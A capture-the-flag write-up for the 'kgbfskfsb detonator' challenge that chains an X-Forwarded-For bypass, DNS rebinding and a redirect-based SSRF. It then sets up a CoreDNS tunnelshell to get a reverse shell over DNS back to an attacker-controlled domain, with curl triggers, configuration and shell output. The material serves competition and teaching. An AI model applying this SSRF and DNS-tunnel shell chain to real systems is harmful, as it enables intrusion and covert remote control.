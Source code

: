 #Exploitation

## Putting together the inital request:

1) X-Forwarded-For bypass:
Include the header with the IP

2) IP check bypass:
-Include multiple IPs in a domain entry or use DNS rebinding (like rbndr.us). DNS Rebinding was the intended solution

3) How to use /detonate and satisfy the 127.0.0.1 ip check:

Send a 302 redirect to launch an SSRF attack against the webserver, into the detonate endpoint.

python3 redir.py 80 http://127.0.0.1:15555/detonate?name=supersecretabc123xyz\&url=http://0x0y0z/payload

Our trigger looks like this
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/

## Stage 2 -- Detonator

The hint for the challenge says `DeNiS Sergeev wants a secret mission payload.`, alluding to DNS. 

1) Run coredns with the https://github.com/adc/coredns-tunnelshell plugin installed. 

You can use a configuration like this:
```
tunnel.yourdomain.com {
  hosts {
	95.173.136.72 kgb.tunnel.yourdomain.com
	1.2.3.4 kgb.tunnel.yourdomain.com
	fallthrough
  }

  tunnelshell

  log
  errors
}

#./coredns -conf config

```

```
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/
```


2) Connect to the coredns socket and wait for a connection to show up
nc localhost 1337

In coredns you'll know when the reverse tunnel works when you see requests coming in
```
[INFO] 162.158.104.220:34913 - 24862 "TXT IN 2420-0-660faeac.tunnel.yourdomain.com. udp 63 true 1452" NOERROR qr,aa 100 0.000447496s
[INFO] 162.158.104.148:59983 - 7850 "TXT IN 00-1-2317440.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000248969s
[INFO] 162.158.104.148:22594 - 53984 "TXT IN 00-2-5d586564.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000110636s
[INFO] 162.158.104.148:63962 - 48204 "TXT IN 00-3-105ae3a3.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00010058s
[INFO] 162.158.104.149:65071 - 57369 "TXT IN 00-4-22e00cc.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000239648s
[INFO] 162.158.104.148:29410 - 15723 "TXT IN 00-5-6c60fe9a.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00022385s
[INFO] 162.158.104.220:46404 - 39031 "TXT IN 00-6-4aae60dc.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000100155s
```

```
bash-3.2# nc localhost 1337
[+] connected to coredns-tunnelshell

$ uname -a
Linux dbed26620181 5.17.0-051700-generic #202203202130 SMP PREEMPT Sun Mar 20 21:33:41 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
$ ls
bin	     etc    lib64				 mnt   run   tmp
boot	     home   libx32				 opt   sbin  usr
detonations  lib    media				 proc  srv   var
dev	     lib32  midnightsun.ctf.kgbfskfsb_detonator  root  sys
$ ls -al
total 6416
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 .
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 ..
drwxr-xr-x   1 root   root    4096 Apr  4 04:30 .do
-rwxr-xr-x   1 root   root       0 Apr  4 04:31 .dockerenv
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 bin -> usr/bin
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 boot
drwxr-xr-x   2 nobody root    4096 Apr  4 04:20 detonations
drwxr-xr-x   5 root   root     340 Apr  4 04:31 dev
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 etc
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 home
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 lib -> usr/lib
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root      10 Mar 15 11:49 libx32 -> usr/libx32
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 media
-rwxr-xr-x   1 root   root 6501290 Apr  4 04:30 midnightsun.ctf.kgbfskfsb_detonator
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 mnt
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 opt
dr-xr-xr-x 418 root   root       0 Apr  4 04:31 proc
drwx------   2 root   root    4096 Mar 15 11:52 root
drwxr-xr-x   5 root   root    4096 Mar 15 11:52 run
lrwxrwxrwx   1 root   root       8 Mar 15 11:49 sbin -> usr/sbin
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 srv
dr-xr-xr-x  13 root   root       0 Apr  4 04:31 sys
drwxrwxrwt   1 root   root    4096 Apr  3 00:05 tmp
drwxr-xr-x  14 root   root    4096 Mar 15 11:49 usr
drwxr-xr-x   1 root   root    4096 Mar 15 11:52 var
$ ls -R .do
.do:
you

.do/you:
see

.do/you/see:
the

.do/you/see/the:
answer

.do/you/see/the/answer:
runme
$ .do/you/see/the/answer/runme
1070352547 +1 = ?
1070352548
midnight{flag}

```


## MISC:

Some teams were using chashell and it failed for them. Chashell has a bug where they dont set the authoritative flag.
You can patch their server code with	

```
m.MsgHdr.Authoritative = true 
```


## Other solutions

Some teams decided to re-exploit 'kgbfskfsb' as an alternative to DNS. This is a bit harder and unreliable, but a very valid
way to exfiltrate data back out of the system. When exploiting the service it would fetch the team's URL to relay information.

The docker set up does not stop this



